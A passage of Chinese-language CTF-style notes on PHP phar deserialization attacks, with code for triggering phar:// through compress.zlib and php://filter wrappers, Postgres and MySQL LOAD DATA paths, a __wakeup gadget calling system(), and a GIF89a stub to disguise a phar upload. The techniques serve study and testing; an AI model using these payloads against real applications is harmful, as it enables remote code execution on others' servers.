 ```php
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//配合其他协议：(SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile和pg_trace同样也是能使用的，需要开启phar的写功能。
<?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?>
```

### 绕过方式

当环境限制了phar不能出现在前面的字符里。可以使用`compress.bzip2://`和`compress.zlib://`等绕过

```php
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
```

 

当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
php://filter/read=convert.base64-encode/resource=phar://phar.phar


GIF格式验证可以通过在文件头部添加GIF89a绕过
1、$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
2、生成一个phar.phar，修改后缀名为phar.gif
